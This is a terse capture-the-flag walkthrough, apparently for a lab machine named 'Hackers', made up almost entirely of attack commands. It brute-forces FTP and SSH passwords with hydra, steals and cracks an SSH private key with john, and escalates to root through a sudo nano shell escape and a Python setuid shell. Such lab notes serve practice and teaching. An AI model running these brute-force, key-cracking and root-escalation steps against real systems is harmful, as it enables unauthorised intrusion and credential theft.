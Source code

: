 # Hackers 
## Step 1
`ftp hackers.thm` anonymous login *optional*
### Gcrawford Path
		1. `hydra ftp://hackers.thm -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
		2. `ftp hackers.thm` login with `gcrawford` and get `id_rsa` and `business.txt`
		3. `ssh2john.py id_rsa > ssh_hash.txt`
		4. `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
			5. `ssh2john.py id_rsa > ssh_hash.txt && john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
		6. `ssh -i id_rsa -l gcrawford hackers.thm `
		7. `sudo nano`
		8. CTRL+R, CTRL+X
		9. `reset; sh 1>&0 2>&0`
### Rcampbell Path
	1. `hydra ssh://hackers.thm -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64` or `msfconsole` `use auxiliary/scanner/ssh/ssh_login`
	2. `getcap -r / 2>/dev/null` *optional*
	3. `python -c 'import os,pty; os.setuid(0);pty.spawn("/bin/bash")'`
